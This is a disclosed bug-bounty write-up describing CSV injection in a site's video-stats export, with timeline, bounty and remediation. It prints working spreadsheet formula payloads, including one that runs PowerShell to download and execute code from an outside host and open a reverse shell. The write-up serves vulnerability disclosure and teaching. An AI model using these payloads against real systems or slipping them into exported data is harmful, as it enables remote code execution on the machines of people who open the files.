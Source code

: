 # CSV Injection -> Meterpreter on Pornhub
This post will discuss an issue I found regarding CSV injection on Pornhub.com, allowing a remote attacker to inject malicious code into video titles resulting in potential full compromise of content creators and other users.

**Note: Pornhub have advised that they will no longer be rewarding for this type of bug. Additionally, this issue has now been fixed, Pornhub have closed the report and pushed out a code fix**

Difficulty: **Medium** 
Risk: **High**
Affected URLs: pornhub.com 
Report Link: https://hackerone.com/reports/146593
Date Reported: June 22nd, 2016 
Date Report Made Public: July 4th, 2016
Bounty Paid: **$500**

This issue has been marked as high risk in this scenario based upon the affected user base and locations, however in a normal situation this would be regarded as Medium/Low.

######Timeline of Events
 - Reported on Hackerone to Pornhub: 22nd  June  2016
 - Issue Marked as Informative: 30th June 2016
 - Issue Publicly Disclosed: 4th July 2016
 - Issue Reopened: 20th July 2016
 - Pornhub Award $500 Bounty: 27th July 2016
 - Pornhub Push and Verify Fixed: 27th July 2016

**tl;dr this vulnerability is exploiting CSV injection, to gain meterpreter session on a victim's local system.**

I identified that the export video stats function was vulnerable to CSV injection that could be chained with a meterpreter payload resulting in client side remote code execution. The payload used to achieve the proof of concept is as follows:

`@SUM(1+2+3)*cmd|' /C calc'!A0`

This will launch calculator when the spreadsheet is downloaded and launched, it was identified that pornhub takes certain steps to attempt to escape this however it seems that the `@` character has been missed from the blacklisted characters and thus makes this attack possible. 

To highlight the risk of this vulnerability, executing calc.exe isn’t enough sometimes, it doesn't look as impressive as a meterpreter shell. This is possible by using the following value:

`@SUM(1+2+3)*cmd|'/C powershell IEX(wget 0r.pe/p)'!A0`

This payload works by, when the CSV file is opened powershell is launched in the background which attempts to grab the Powersploit payload of Invoke-Shellcode to attempt a reverse shell connection back to the attacker's server.

####Remediation
The recommended steps to remediate this issue in particular would be to ensure that video names contain only alpha-numeric characters and cannot be modified to add arbitrary characters.  

For more information on this type of vulnerability please see the other post I did about [CSV Injection](https://blog.zsec.uk/csv-dangers-mitigations/).

---

